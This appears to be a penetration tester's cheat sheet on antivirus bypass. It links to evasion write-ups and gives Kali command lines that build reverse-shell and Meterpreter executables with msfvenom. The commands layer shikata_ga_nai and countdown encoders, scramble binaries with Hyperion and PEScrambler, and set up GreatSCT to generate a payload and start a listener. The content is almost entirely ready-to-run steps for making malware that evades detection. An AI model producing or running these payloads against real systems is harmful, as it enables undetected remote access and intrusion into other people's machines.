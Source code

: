 



# AV Bypass

* [hacker.house/lab/windows-defender-bypassing-for-meterpreter/](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)
* [codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/](https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/)
* [github.com/phackt/stager.dll](https://github.com/phackt/stager.dll)
* [hausec.com/2019/02/09/suck-it-windows-defender/]https://hausec.com/2019/02/09/suck-it-windows-defender/)
* [medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad](https://medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad)
* [medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8](https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8)




## msfvenom

```
root@kali:$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
root@kali:$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```




## Veil-Evasion

Hyperion + Pescramble

```
root@kali:$ wine hyperion.exe input.exe output.exe
root@kali:$ wine PEScrambler.exe -i input.exe -o output.exe
```




## GreatSCT

Install and generate a payload:

```
root@kali:$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
root@kali:$ cd ~/tools/GreatSCT/setup
root@kali:$ ./setup.sh
root@kali:$ cd .. && ./GreatSCT.py
...generate a payload...
root@kali:$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

root@kali:$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```
